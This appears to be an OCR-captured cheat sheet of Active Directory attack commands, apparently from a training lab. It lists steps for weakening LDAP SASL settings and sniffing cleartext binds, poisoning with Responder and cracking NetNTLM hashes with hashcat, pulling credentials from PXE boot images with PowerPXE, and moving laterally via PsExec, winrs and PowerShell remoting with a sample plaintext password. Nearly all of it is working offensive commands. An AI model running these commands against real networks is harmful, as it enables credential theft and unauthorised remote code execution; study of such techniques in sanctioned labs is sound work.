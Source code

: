     olcSaslSecProps: Specifies the SASL security properties
    noanonymous: Disables mechanisms that support anonymous login
    minssf: Specifies the minimum acceptable security strength with 0, meaning no protection.


sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./olcSaslSecProps.ldif && sudo service slapd restart

ldapsearch -H ldap:// -x -LLL -s base -b "" supportedSASLMechanisms
dn:
supportedSASLMechanisms: PLAIN
supportedSASLMechanisms: LOGIN


sudo tcpdump -SX -i breachad tcp port 389


# Authentication Relays 


sudo responder -I breachad
hashcat -m 5600 <hash file> <password file> --force

# PXE
powerpxe
"\Tmp\x64{39...28}.bcd" conf.bcd

Import-Module .\PowerPXE.ps1
$BCDFile = "conf.bcd"
Get-WimFile -bcdFile $BCDFile
Get-FindCredentials -WimFile pxeboot.wim





# lateral movement and pivoting

# Spawning Processes Remotely 

Psexec (port 445)
Required Group Memberships: Administrators

PsExec64.exe \\10.200.75.101 -u Administrator -p Mypass123 -i cmd.exe    


Winrm (5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS))
Required Group Memberships: Remote Management Users

winrs.exe -u:Administrator -p:Mypass123 -r:target cmd

using powershell
$username = 'Administrator';
$password = 'Mypass123';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force; 
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
Enter-PSSession -Computername TARGET -Credential $credential
Invoke-Command -Computername TARGET -Credential $credential -ScriptBlock {whoami}

